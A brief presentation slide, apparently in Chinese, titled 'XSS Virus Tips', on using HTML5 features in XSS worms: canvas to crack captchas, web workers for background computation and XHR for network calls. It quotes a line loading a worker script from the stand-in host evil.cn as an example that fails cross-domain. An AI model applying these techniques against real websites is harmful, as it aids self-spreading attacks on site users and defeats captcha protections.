

# XSS Virus Tips
使用html5的新特性
canvas: crack captcha
web worker: 解决xss virus的大数据量计算
…
html5虽然得到ff的全面支持，还不够
web worker
后台开启的一个线程工作（new Worker）
后台运行的Worker不能操作DOM
关键是数据处理，还可以用xhr进行网络操作，不过也是有限制的
缺陷：var worker = new Worker("http://evil.cn/f.js");不能跨域加载js文件
…